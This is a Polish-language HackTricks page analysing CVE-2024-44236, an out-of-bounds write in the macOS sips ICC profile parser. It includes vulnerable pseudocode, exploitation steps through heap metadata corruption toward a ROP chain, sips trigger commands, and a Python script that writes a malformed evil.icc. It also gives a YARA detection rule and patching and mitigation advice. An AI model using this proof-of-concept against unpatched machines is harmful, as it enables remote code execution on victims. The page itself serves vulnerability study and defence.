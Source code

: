 # WWW2Exec - sips ICC Profile Out-of-Bounds Write (CVE-2024-44236)

{{#include ../../banners/hacktricks-training.md}}

## Przegląd

Wrażliwość **zero-write** poza granicami w parserze profilu ICC **Scriptable Image Processing System** (`sips`) w Apple macOS (macOS 15.0.1, `sips-307`) pozwala atakującemu na uszkodzenie metadanych sterty i przekształcenie prymitywu w pełne wykonanie kodu. Błąd znajduje się w obsłudze pola `offsetToCLUT` tagów `lutAToBType` (`mAB `) i `lutBToAType` (`mBA `). Jeśli atakujący ustawi `offsetToCLUT == tagDataSize`, parser usuwa **16 bajtów poza końcem bufora sterty**. Spraying sterty pozwala atakującemu na wyzerowanie struktur alokatora lub wskaźników C++, które później będą dereferencjonowane, co prowadzi do łańcucha **arbitrary-write-to-exec** (CVE-2024-44236, CVSS 7.8).

> Apple naprawił błąd w macOS Sonoma 15.2 / Ventura 14.7.1 (30 października 2024). Druga wariant (CVE-2025-24185) został naprawiony w macOS 15.5 i iOS/iPadOS 18.5 1 kwietnia 2025.

## Wrażliwy kod
```c
// Pseudocode extracted from sub_1000194D0 in sips-307 (macOS 15.0.1)
if (offsetToCLUT <= tagDataSize) {
// BAD ➜ zero 16 bytes starting *at* offsetToCLUT
for (uint32_t i = offsetToCLUT; i < offsetToCLUT + 16; i++)
buffer[i] = 0;            // no bounds check vs allocated size!
}
```
## Kroki Eksploatacji

1. **Stwórz złośliwy profil `.icc`**

* Ustaw minimalny nagłówek ICC (`acsp`) i dodaj jeden tag `mAB ` (lub `mBA `).
* Skonfiguruj tabelę tagów tak, aby **`offsetToCLUT` równał się rozmiarowi tagu** (`tagDataSize`).
* Umieść dane kontrolowane przez atakującego tuż po tagu, aby 16 zerowych zapisów nakładało się na metadane alokatora.

2. **Wywołaj analizę za pomocą dowolnej operacji sips, która dotyka profilu**

```bash
# ścieżka weryfikacji (plik wyjściowy nie jest potrzebny)
sips --verifyColor evil.icc
# lub niejawnie podczas konwertowania obrazów, które osadzają profil
sips -s format png payload.jpg --out out.png
```

3. **Uszkodzenie metadanych sterty ➜ dowolny zapis ➜ ROP**
W domyślnym alokatorze **`nano_zone`** firmy Apple, metadane dla slotów 16-bajtowych znajdują się **bezpośrednio po** wyrównanym bloku 0x1000. Umieszczając tag profilu na końcu takiego bloku, 16 zerowych zapisów nadpisuje `meta->slot_B`. Po kolejnej operacji `free`, zatruty wskaźnik jest dodawany do małej listy wolnych, co pozwala atakującemu **alokować fałszywy obiekt pod dowolnym adresem** i nadpisać wskaźnik vtable C++, używany przez sips, ostatecznie przekierowując wykonanie do łańcucha ROP przechowywanego w złośliwym buforze ICC.

### Szybki generator PoC (Python 3)
```python
#!/usr/bin/env python3
import struct, sys

HDR = b'acsp'.ljust(128, b'\0')          # ICC header (magic + padding)
TAGS = [(b'mAB ', 132, 52)]              # one tag directly after header
profile  = HDR
profile += struct.pack('>I', len(TAGS))  # tag count
profile += b''.join(struct.pack('>4sII', *t) for t in TAGS)

mab = bytearray(52)                      # tag payload (52 bytes)
struct.pack_into('>I', mab, 44, 52)      # offsetToCLUT = size (OOB start)
profile += mab

open('evil.icc', 'wb').write(profile)
print('[+] Wrote evil.icc (%d bytes)' % len(profile))
```
### Reguła wykrywania YARA
```yara
rule ICC_mAB_offsetToCLUT_anomaly
{
meta:
description = "Detect CLUT offset equal to tag length in mAB/mBA (CVE-2024-44236)"
author       = "HackTricks"
strings:
$magic = { 61 63 73 70 }          // 'acsp'
$mab   = { 6D 41 42 20 }          // 'mAB '
$mba   = { 6D 42 41 20 }          // 'mBA '
condition:
$magic at 0 and
for any i in (0 .. 10):           // up to 10 tags
(
($mab at 132 + 12*i or $mba at 132 + 12*i) and
uint32(132 + 12*i + 4) == uint32(132 + 12*i + 8) // offset == size
)
}
```
## Wpływ

Otwieranie lub przetwarzanie spreparowanego profilu ICC prowadzi do zdalnego **wykonania dowolnego kodu** w kontekście wywołującego użytkownika (Podgląd, QuickLook, renderowanie obrazów w Safari, załączniki w Mailu itp.), omijając Gatekeeper, ponieważ profil może być osadzony w innych, pozornie nieszkodliwych obrazach (PNG/JPEG/TIFF).

## Wykrywanie i łagodzenie

* **Poprawka!** Upewnij się, że host działa na macOS ≥ 15.2 / 14.7.1 (lub iOS/iPadOS ≥ 18.1).
* Wdróż powyższą regułę YARA na bramkach e-mailowych i rozwiązaniach EDR.
* Usuń lub oczyść osadzone profile ICC za pomocą `exiftool -icc_profile= -overwrite_original <file>` przed dalszym przetwarzaniem na nieufnych plikach.
* Wzmocnij Podgląd/QuickLook, uruchamiając je w piaskownicowych maszynach wirtualnych „przezroczystości i modernizacji” podczas analizy nieznanej zawartości.
* W przypadku DFIR, szukaj niedawnego wykonania `sips --verifyColor` lub ładowania biblioteki `ColorSync` przez aplikacje w piaskownicy w zjednoczonym dzienniku.

## Odniesienia

* Trend Micro Zero Day Initiative advisory ZDI-24-1445 – “Apple macOS ICC Profile Parsing Out-of-Bounds Write Remote Code Execution (CVE-2024-44236)”
https://www.zerodayinitiative.com/advisories/ZDI-24-1445/
* Apple security updates HT213981 “O zawartości zabezpieczeń macOS Sonoma 15.2”
https://support.apple.com/en-us/HT213981

{{#include ../../banners/hacktricks-training.md}}
